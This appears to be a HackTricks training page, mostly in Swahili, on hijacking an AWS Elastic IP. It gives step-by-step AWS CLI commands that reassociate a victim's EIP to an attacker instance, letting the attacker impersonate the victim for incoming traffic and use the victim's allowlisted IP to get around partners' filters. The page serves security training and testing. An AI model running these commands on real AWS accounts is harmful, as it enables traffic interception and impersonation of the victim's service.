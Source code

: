 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## Muhtasari

Tumia vibaya `ec2:AssociateAddress` (na hiari `ec2:DisassociateAddress`) ili kuunganisha tena Elastic IP (EIP) kutoka kwa victim instance/ENI hadi attacker instance/ENI. Hii inaelekeza trafiki ya kuingia iliyokuwa ikielekezwa kwa EIP kwenda kwa attacker na pia inamruhusu attacker kuanzisha trafiki ya kutoka kwa nje ikitumia public IP iliyoorodheshwa (allowlisted) ili kupita firewalls za washirika wa nje.

## Mahitaji
- Target EIP allocation ID ndani ya account/VPC ileile.
- Attacker instance/ENI unayodhibiti.
- Ruhusa:
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` on the EIP allocation-id and on the attacker instance/ENI
- `ec2:DisassociateAddress` (hiari). Kumbuka: `--allow-reassociation` itafanya auto-disassociate kutoka kwa attachment ya awali.

## Shambulio

Vigezo
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) Tenga au tambua EIP ya mhusika (maabara inatenga mpya na kuiambatisha kwa mhusika)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) Thibitisha kuwa EIP kwa sasa inaelekezwa kwa huduma ya mwanaathirika (mfano: angalia banner)
```bash
curl -sS http://$EIP | grep -i victim
```
3) Tambatanisha tena EIP kwa mshambulizi (inaondoa uhusiano na mwathiriwa moja kwa moja)
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) Thibitisha kuwa EIP sasa inaelekeza kwa huduma ya mshambuliaji
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
Ushahidi (uhusiano ulihamishwa):
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## Athari
- Inbound impersonation: Trafiki yote kwenda EIP iliyotekwa inapelekwa kwenye instance/ENI ya mshambuliaji.
- Outbound impersonation: Mshambuliaji anaweza kuanzisha trafiki inayoonekana kutokea kutoka kwa allowlisted public IP (inayofaa kuvuka vichujio vya IP vya washirika/vyanzo vya nje).

{{#include ../../../../banners/hacktricks-training.md}}
